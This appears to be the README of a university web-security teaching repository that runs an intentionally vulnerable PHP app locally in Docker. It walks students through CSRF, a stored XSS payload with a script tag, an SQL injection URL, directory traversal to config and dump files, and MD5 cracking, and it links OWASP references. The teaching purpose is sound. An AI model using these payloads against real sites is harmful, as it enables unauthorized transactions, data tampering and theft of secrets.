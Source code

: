 # Base website security demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

## Presentation
[Slides from presentation](PRESENTATION.pdf)

## Development
### Installation
1. [Install Docker](https://docs.docker.com/install/)
1. [Install Docker Compose](https://docs.docker.com/compose/install/)
1. Clone this repository `git clone https://github.com/intraworlds/zcu-security-demo.git`
or download [ZIP file](https://github.com/intraworlds/zcu-security-demo/archive/master.zip)

### Run
1. run `docker-compose up` and you access the website
 - **app**: http://localhost:8088/
  - username: `willis.ritchie@example.com`
  - password: `richie`
 - **adminer**: http://localhost:8086/?server=mysql&username=admin&db=zcu_demo
  - password: `1234`

> Note: It'll take a minute to build docker container - be patient.

### Simulate attacks

#### CSRF
- goto http://localhost:8088/?path=create&receiver=1&amount=1&desc=❤️&submit=create
- observe that 1 IW coin was transfered to user #1 without your consent

#### XSS (with CSRF)
- goto http://localhost:8088/?path=create
- create new transaction with following description
```html
❤️
<script>
fetch("/?path=create&receiver=1&amount=1&desc=❤️&submit=create");
</script>
```
- observe that now everybody who visits list of transactions will send a coin
to user #1 without consent

#### SQL injection
- go to http://localhost:8088/?path=list&limit=50;update%20users%20set%20name=%27Anonymous%27;
- refresh page
- observe that all users are named `Anonymous`

#### Directory traversal
try following URLs
- http://localhost:8088/docker-compose.yml
- http://localhost:8088/config/app.env
- http://localhost:8088/dumps/zcu_demo.sql

##### Defense
Adjust apache configuration
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<FilesMatch "((^$)|(^.+\.(php|css|map|js)$))">
    Require all granted
</FilesMatch>
```


#### Weak hash algorithm
try use `hashcat`
```
php scripts/crack_md5_hash.php 75b71aa6842e450f12aca00fdf54c51d
```

### Docker tips
Show all running containers
```
docker-compose ps
```
See logs
```
docker-compose logs -f
```
Connect container
```
docker-compose exec apache bash -l
```

## attacks

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
